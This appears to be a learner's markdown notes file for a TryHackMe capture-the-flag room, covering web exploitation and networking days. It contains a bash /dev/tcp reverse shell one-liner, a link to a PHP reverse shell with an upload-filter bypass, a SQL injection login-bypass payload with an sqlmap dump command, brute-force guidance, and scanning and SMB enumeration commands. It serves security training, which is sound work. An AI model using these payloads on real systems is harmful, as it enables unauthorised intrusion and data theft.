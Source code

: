 # Room
https://tryhackme.com/room/learncyberin25days

# Task 1 - Intro
Intro

# Task 2 - Get Connected
Get Connected

# Task 3 - Day 1 - Web Exploitation
* DNS
* IP
* HTTP/S
  * HTTP is an inherently stateless protocol, data does not persist
* Cookies
  * a constrcut that supports user state

Complete questions, CyberChef is your friend:
* https://gchq.github.io/CyberChef/

# Task 4 - Day 2 - Web Exploitation
* GET parameters
  * ?test=value
    * ? specifies the parameter name is coming next
    * test is the parameter name
    * = specifies the parameter value is coming next
    * value is the parameter value
  * ?test=value&test2=value2
    * ? specifies the parameter name is coming next
    * test is the parameter name
    * = specifies the parameter value is coming next
    * value is the parameter value
    * & specifies another parameter name is coming next
    * test2 is the next parameter name
    * = specifies the parameter value is coming next
    * value2 is the paramemter value
* File Uploads
  * file extension filtering is important
* Reverse Shells
* Reverse Shell Listeners

The questions are completed by using the information on the displayed web page.  You will also use file extension bypassing by changing the name of this reverseshell to .jpg.php

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

After the file is uploaded you can start your listener with nc -nvlp and then execute the reverse shell and grab the flag

# Task 5 - Day 3 - Web Exploitation
* Authentication
* Default Credentials
* Dictionary Attacks with Burp Suite

Using Burp Suite intruder with the cluster bomb setting, brute force your way into the web application login system using the provided short list of possible credentials while observing the differences in response output

# Task 6 - Day 4 - Web Exploitation
* Fuzzing
* gobuster
* wfuzz

Wordlists
* https://github.com/danielmiessler/SecLists

# Task 7 - Day 5 - Web Exploitation
* SQL Injection
  * Login Bypass
  * Blind SQL Injection
  * Union SQL Injection
* SQLMap
  * SQLMap and Burp Suite

* Resources
  * https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
  * https://github.com/payloadbox/sql-injection-payload-list
  * https://www.codecademy.com/articles/sql-commands

```
' or true --

sqlmap -r r.request --dump-all --dbms sqlite --tamper=space2comment
```

# Task 8 - Day 6 - Web Exploitation
* XSS
  * Stored XSS
  * Reflected XSS
* Detection
  * OWASP ZAP
* Resources
  * https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Input_Validation_Cheat_Sheet.md
  * https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
  * https://github.com/payloadbox/xss-payload-list

# Task 9 - Day 7 - Networking
* IP Address
  * Public
  * Private
  * NAT
* Protocols
  * TCP
    * Three-Way Handshake
    * ISN
    * Reassembly
  * IP
* Wireshark
  * Filters

```
icmp
http.request.method eq get
http.request.method == "GET"
ftp
ftp.request.command == "PASS"
File > Export Objects > HTTP
```

# Task 10 - Day 8 - Networking
* nmap
* scanning
  * three-way handshake
  * connect scan : -sT
  * SYN scan : -sS
  * results
    * SYN/ACK = open
    * RST = closed
    * Multiple attempts = filtered
  * additional types
    * -A - identify services
    * -O - OS detection
    * -p - scan specific port
    * -p- - scan all ports
    * -sV - version and fingerprint
* timing
  * -T0 - stealthiest
  * -T5 - most aggressive
* scripting engine
  * --script

* scanning defense
  * snort
  * suricata

```
map -A -T4 10.10.33.224 | tee nmap.txt
```

# Task 11 - Day 9 - Networking
* FTP
  * TCP 20 - data
  * TCP 21 - commands
* Anonymous login
* ftp 1.2.3.4
* commands
  * ls
  * cd
  * get
  * put

```
bash -i >& /dev/tcp/1.2.3.4/4444 0>&1
```

# Task 12 - Day 10 - Networking
* Samba
* SMB - Windows and Linux support
  * request/response
  * share
  * enumeration
    * enum4linux
  * access
    * smbclient
* NFS - Linux support

```
enum4linux 10.10.178.30 | tee e4l.txt
smbclient //10.10.178.30/tbfc-hr
```